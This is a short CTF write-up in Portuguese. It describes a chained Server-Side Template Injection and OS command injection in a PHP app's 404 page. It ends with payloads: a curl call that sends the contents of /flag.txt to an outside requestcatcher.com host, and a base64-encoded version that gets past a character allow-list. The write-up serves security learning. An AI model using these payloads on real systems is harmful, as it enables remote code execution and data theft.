 
# Análise inicial

  

Na página principal da aplicação, há a funcionalidade de se pingar o host https://hackersdobem.org.br/

  

Quando se tenta acessar um recurso que não existe, a página de resposta reflete o recurso que tentou ser acessado e diz que ele não existe.

  

Analisando o código fonte da aplicação, nota-se a presença de uma allow-list de caracteres, listando os caracteres que podem ser utilizados e que serão refletidos na página de Erro 404.

  

# Vulnerabilidade

  

Explorar **Server-Side Template Injection** na reflexão de um recurso inexistente, utilizando o método da classe Ping.php e realizar um **OS Command Injection** na passagem de parâmetro para o método.

  

A execução do command injection não trará a saída do comando executado para a página (**blind RCE**), sendo necessário utilizar uma ferramenta como o curl para extrair informações da máquina alvo.

  

Além disso, deve-se respeitar os caracteres definidos na **allow-list** para a construção do payload.

  

Isso é possível utilizando o encoding base64 para montar o payload final.

  

#### Payload RCE:

    {Ping::ping(';curl https://xyz.requestcatcher.com/`cat /flag.txt`')}


#### Payload Final:

    {include file="eval:base64:e1Bpbmc6OnBpbmcoJztjdXJsIGh0dHBzOi8vY2hhcmxpZXRvYnMucmVxdWVzdGNhdGNoZXIuY29tL2BjYXQgL2ZsYWcudHh0YCcpfQ=="}